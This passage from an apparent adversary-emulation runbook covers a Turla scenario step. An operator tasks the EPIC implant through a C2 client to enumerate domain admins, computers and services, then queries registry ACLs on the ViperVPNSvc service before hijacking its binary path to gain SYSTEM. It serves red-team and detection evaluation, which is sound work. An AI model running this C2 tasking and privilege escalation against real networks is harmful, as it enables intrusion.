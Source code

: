 :microphone: `Voice Track:`

Step 3 emulates Turla performing additional discovery using EPIC and privilege
escalation by abusing weak registry permissions.

Once C2 communications have been established between EPIC and the C2 via the
proxy server, initial network enumeration is performed on the first host
where information about the host device, local and domain groups, and network
configurations is collected. 

At this point, the domain controller `bannik (10.20.10.9)` and several domain 
administrator accounts, including `frieda`, are discovered. A custom service is
also discovered.

Next, additional enumeration of the registry is performed and a weak registry
permission for the service `ViperVPN` is discovered and the binary path is
modified to perform privilege escalation.

Eventually the service is restarted manually by a domain admin from the domain
controller to emulate the service being restarted via machine reboot. When the service restarts,
EPIC will be executed with SYSTEM level privileges.

Note that since this domain admin login is part of a whitecarded service restart,
we will not be using this logon session for subsequent activity.

### :biohazard: Procedures

* Within your Kali control server terminal window, right click and select "Split Terminal Horizontally". Be careful not to terminate the control server.

* In your lower terminal tab, copy and paste the first set of discovery commands:
```bash
cd /opt/day1/turla/Resources/control_server
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | net group "Domain Admins" /domain && net group "Domain Computers" /domain && net group "Domain Controllers" /domain && tasklist /svc'
```
* :heavy_exclamation_mark: Verify that the `ViperVPNSvc` service shows up in the tasklist output towards the end.

```bash
grep 'ViperVPNSvc' logs.txt -i
```

* This should return:
  * >```
    >viperVpn.exe                  <PID> ViperVPNSvc
    >```

* Wait 1 minute before tasking the next command to query the service and who can access it:
```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | reg query HKLM\SYSTEM\CurrentControlSet\Services\ViperVPNSvc && powershell "$(Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\ViperVPNSvc).Access"'
```

* Wait 1 minute before tasking EPIC to modify the misconfigured ViperVPNSvc service to use our implant to execute:
